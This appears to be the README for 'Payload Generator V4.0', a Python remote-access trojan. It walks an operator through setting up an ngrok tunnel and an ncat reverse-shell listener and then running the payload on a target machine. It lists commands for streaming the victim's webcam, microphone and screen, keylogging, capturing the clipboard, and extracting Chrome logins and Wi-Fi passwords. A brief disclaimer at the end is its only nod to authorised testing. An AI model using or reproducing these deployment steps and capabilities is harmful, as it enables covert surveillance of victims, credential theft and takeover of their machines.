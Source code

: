 ### **Documentation for Payload Generator V4.0 by PhantomCode**

#### **Purpose:**
The Payload Generator V4.0 is an advanced tool designed for remotely controlling a target’s machine using a reverse shell. It provides functionality for real-time webcam streaming, screen sharing, file management (upload/download), system manipulation (lock, shutdown, reboot), keylogging, and credential extraction (e.g., Google Chrome logins and Wi-Fi passwords). This version also includes integration with Ngrok for tunneling through NAT/firewalls and Ncat for TCP connections.

---

### **Setup Instructions**

#### **Requirements**

Before running the payload, ensure the following Python modules are installed on the attacker's machine:

```bash
pip install socket subprocess os time ctypes random pickle opencv-python numpy pyaudio pynput pywin32 threading struct pyautogui re json base64 pycryptodomex
```

Install **pywin32** (for Windows-based targets) if necessary:

```bash
pip install pywin32
```

#### **Ngrok Setup:**
1. **Download Ngrok** from [ngrok.com](https://ngrok.com) and ensure it’s properly installed on your machine.
2. Run the following command to create a TCP tunnel on port 8080 (or another specified port):
   ```bash
   ngrok tcp 8080
   ```
   This will provide you with a TCP forwarding address, something like `tcp://0.tcp.ngrok.io:xxxxx`. Note the address and port number for the next steps.

#### **Ncat Setup:**
Use Ncat or Netcat to listen for incoming connections on the port being forwarded by Ngrok. Run the following command on your terminal:
```bash
ncat -lvnp 8080
```
or 
```bash
nc -lvnp 8080
```

#### **Configure and Run the Payload:**

1. Open the **Payload_generator_V-4.0.py** file and modify the following:
   - **Attacker IP**: The IP address from the Ngrok connection (`0.tcp.ngrok.io`).
   - **Attacker Port**: The port number provided by Ngrok (`xxxxx`).

2. After modifying these details, run the Python script to generate and execute the payload on the target machine:
   ```bash
   python Payload_generator_V-4.0.py
   ```

Once the payload is executed on the target, the reverse shell will establish a connection back to your Ncat listener.

---

### **Payload Commands**

This version of the payload allows the following commands to be executed on the target machine through the reverse shell. Each command initiates a specific action on the victim's system:

| **Command**              | **Description**                                                                 |
|--------------------------|---------------------------------------------------------------------------------|
| `webcam`                 | Starts streaming the target’s webcam feed to the attacker’s machine.              |
| `stop_webcam`            | Stops the webcam streaming.                                                       |
| `screenshare`            | Starts real-time screen sharing of the target’s display.                          |
| `stop_screenshare`       | Stops screen sharing.                                                             |
| `upload <filepath>`      | not done                                                                          |
| `download <filepath>`    | not done                                                                          |
| `lockscreen`             | Locks the target’s screen.                                                        |
| `shutdown`               | Shuts down the target’s machine.                                                  |
| `reboot`                 | Reboots the target’s machine.                                                     |
| `extract_google_logins`  | Extracts stored login credentials from Google Chrome.                             |
| `get_wifi_passwords`     | Extracts saved Wi-Fi passwords from the target machine.                           |
| `popups`                 | Creates random annoying pop-up windows on the target's screen.                    |
| `keylogs`                | Displays logged keystrokes from the keylogger running on the target machine.      |
| `start_keylogger`        | Starts a keylogger that records the target's keystrokes.                          |
| `stop_keylogger`         | Stops the keylogger.                                                              |
| `audio_real_time`        | Streams live audio from the target’s microphone to the attacker’s machine.        |
| `stop_audio`             | Stops the real-time audio streaming.                                              |
| `get_clipboard_content`  | Retrieves the current clipboard content from the target.                          |

---

### **Features and Functionality**

#### **1. Webcam and Screen Sharing**
- The **webcam** command starts streaming video from the target’s webcam in real-time, while **screenshare** starts streaming the target’s display.
- Use the **stop_webcam** and **stop_screenshare** commands to stop the streams.

#### **2. File Management (Upload/Download)**
- Not yet done

#### **3. System Actions**
- **lockscreen**: Locks the target's screen remotely.
- **shutdown** and **reboot** commands allow full control of the target system’s power state.
  
#### **4. Credential and Data Extraction**
- **extract_google_logins** retrieves all saved login credentials from Google Chrome.
- **get_wifi_passwords** collects stored Wi-Fi passwords from the target system.

#### **5. Pop-ups for Disruption**
- The **popups** command spawns random pop-up windows on the target’s machine, causing disruption and annoyance.

#### **6. Keylogging**
- The **start_keylogger** command begins capturing all keystrokes from the target’s keyboard. 
- **keylogs** retrieves the stored keystrokes, while **stop_keylogger** stops the logging process.

#### **7. Audio Capture**
- The **audio_real_time** command streams live audio from the target's microphone to the attacker’s system, while **stop_audio** stops the streaming.

#### **8. Clipboard Content**
- The **get_clipboard_content** command fetches whatever is currently in the clipboard of the target machine.

---

### **GUI Setup for Viewing Webcam and Screen Stream**

1. Run the **Main.py** file after starting the reverse shell to open the GUI.
2. This GUI allows real-time viewing of webcam streams and screen sharing data.
3. Use the respective commands in the reverse shell to start and stop the streams.

---

### **Troubleshooting**

1. **Connection Issues**:
   - If Ngrok disconnects, rerun the `ngrok tcp` command and restart the payload.
   - Ensure Ncat is listening on the same port forwarded by Ngrok.
   
2. **Failed Commands**:
   - Double-check that all Python dependencies are installed.
   - Ensure the correct file paths are used for upload/download actions.

3. **Keylogger Not Working**:
   - Make sure that `pynput` is properly installed and functioning on both the attacker and target systems.

---

### **Author and Legal Information**

- **Author**: PhantomCode  
- **Version**: 4.0  
- **Project**: Reverse Shell Payload Generator

#### **Legal Disclaimer**:
This tool is intended for educational purposes and authorized testing only. The author is not responsible for any misuse or damage caused by this tool. Unauthorized access to computer systems or networks is illegal and punishable by law. Always obtain explicit permission from the system owner before running tests or executing this payload.

